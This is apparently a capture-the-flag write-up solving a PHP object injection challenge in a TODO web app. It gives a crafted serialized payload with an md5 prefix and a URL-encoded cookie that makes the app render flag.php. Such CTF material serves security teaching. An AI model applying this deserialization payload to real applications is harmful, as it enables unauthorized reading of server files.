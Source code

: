 # Name: Web: Exotic Attacks: TODO App

## Vulnerability

PHP Object Injection / PHP Insecure Object Deserialization

## Exploit

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag. The serialized data looks like this:

`a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}`

Its md5 hash is `'760463360e4919ca238d1566fc26661f'`.

We need to encode it - you can use the `encodeURIComponent` JavaScript function.

```javascript
encodeURIComponent(
    '760463360e4919ca238d1566fc26661f'+
    'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
)
```

So we have to make a request with the result as cookie:

`Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D`

Exploit in `../solution/solution.sh`.
